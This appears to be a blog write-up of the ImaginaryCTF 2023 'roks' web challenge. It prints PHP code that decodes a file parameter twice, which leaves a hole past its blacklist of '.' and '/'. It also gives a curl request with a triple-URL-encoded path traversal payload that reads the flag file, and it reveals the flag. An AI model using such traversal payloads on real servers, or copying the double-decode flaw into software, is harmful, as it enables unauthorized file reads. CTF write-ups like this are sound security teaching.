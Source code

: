```yaml
---
title: ImaginaryCTF 2023 - roks
description: Writeup for roks web challenge
date: 2023-12-18
tldr: My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
draft: false
tags: ["ctf", "writeup", "Web"]
---
```


# roks
My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

```
http://roks.chal.imaginaryctf.org/
```

## Manual examination

After staring at the `file.php` its obvious that this is vulnerable to directory traversal attacks, however there is character blacklist in place, which makes it hard to traverse the filesystem as both `.` and `/` are forbidden. Since `urldecode` happens before any checks are made url-encoding doesnt help us much here...

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```


this actually vulnerable to triple encoding the payload like since the `urldecode` happens twice once for the check and once before the file is opened.

```
curl 'http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng' > curl.png
```

we get an image with the flag 
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```